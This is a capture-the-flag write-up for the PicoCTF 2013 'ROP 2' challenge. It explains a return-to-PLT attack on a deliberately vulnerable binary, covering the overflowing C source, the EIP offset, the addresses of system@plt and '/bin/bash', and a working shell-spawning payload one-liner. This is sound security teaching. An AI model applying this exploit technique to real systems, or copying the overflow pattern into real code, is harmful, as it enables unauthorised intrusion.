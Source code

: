 # PicoCTF 2013: ROP 2

**Category:** Binary Exploitation
**Points:** 120
**Description:**

> ROP is a classic technique for getting around address randomization and
> non-executable memory. This sequence will teach you the basics.
>
> Problem available on the shell machine in /problems/ROP_2_20f65dd0bcbe267d ,
> downloadable [here](https://2013.picoctf.com/problems/rop2-20f65dd0bcbe267d)  with source [here](https://2013.picoctf.com/problems/rop2-20f65dd0bcbe267d.c).
>
>

## Write-up
This is a ROP challenge. ASLR is enabled, meaning that libc and stack
addresses are random. Also, NX is enabled, meaning that there is no
simultaneously writable and executable space in memory. RIP Shellcode.
Luckily for us, the programmer has left a trail of breadcrumbs for us.

```C
char * not_used = "/bin/bash";

int not_called() {
    return system("/bin/date");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 256);
}
```

Unlike in [ROP 1](../rop-1), the call to `not_called()` doesn't automatically give
us a shell. However, with a bit of hacking chicanery, this won't be an issue. 

In order for you to understand this exploit, I'm going to teach you a bit about the
GOT and PLT. In any ASLR enabled binary (and most normal binaries for that
matter) there has to be a way for the binary to 'know' where the libc functions
are at. The binary creates a PLT stub for functions used in the source. These
are **always at a constant address**. This PLT stub is essentially a wrapper
function for the actual function in libc. The GOT contains the actual adresses
in libc for the functions used in the program. The actual adresses change from
runtime to runtime, but pointers to the same function are **always in the same
spot in the GOT**.

So what does this mean for us?

It means that the function `not_called()` can be avoided altogether. Since
there is a call to `system()` in the binary, we can just call that instead and
feed it our own argument. Mwahahahaa.

We'll start with finding the offset for `$eip`.

```
python -c 'print "A"*140 + "BBBB" ' | strace ./rop2-20f65dd0bcbe267d
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```

After 140 junk bytes, we have control of `$eip`. As I mentioned before, we need
to supply the PLT stub for `system()` so we can call it with our own argument.

```
objdump -d rop2-20f65dd0bcbe267d | grep system
...
080483a0 <system@plt>:
```

We get an adress of 0x080483a0. We can put this into `$eip` followed by a bogus
four byte return address (we don't need to call another function in this
problem) and the pointer to what we want to call system on. Conveniently
enough, `char * not_used = "/bin/bash";` is exactly what we need. You might be
wondering how we're going to get access to `not_used` since it's on a
randomized stack. The good news is that "/bin/bash" is in the binary as a raw
string. **We can reliably supply "/bin/bash" to ```system()```.**

If we pop open gdb we can find the address of "/bin/bash" in the binary.
```
$gdb rop2-20f65dd0bcbe267d
gdb-peda$ b*main
gdb-peda$ r
gdb-peda$ find /bin/bash
Searching for '/bin/bash' in: None ranges
Found 3 results, display max 3 items:
rop2-20f65dd0bcbe267d : 0x8048610 ("/bin/bash")
rop2-20f65dd0bcbe267d : 0x8049610 ("/bin/bash")
              [stack] : 0xffffd8a9 ("/bin/bash")
```
The first two instances are actually in the binary. The one found in the
`[stack]` can't be reliably used because of ASLR. Now we have all of the
components for our exploit to work. It will take the form of:

[padding] + [address of system] + [fake return address] + [addres /bin/bash]
```
(python -c 'print "A"*140 + "\xa0\x83\x04\x08" + "JUNK" + "\x10\x86\x04\x08"
';cat )| ./rop2-20f65dd0bcbe267d
```

As usual, the exploit has to be in parenthesis with `cat` afterwards so we can
actually use the shell we spawn.

pwn.
## Other write-ups and resources

* none yet
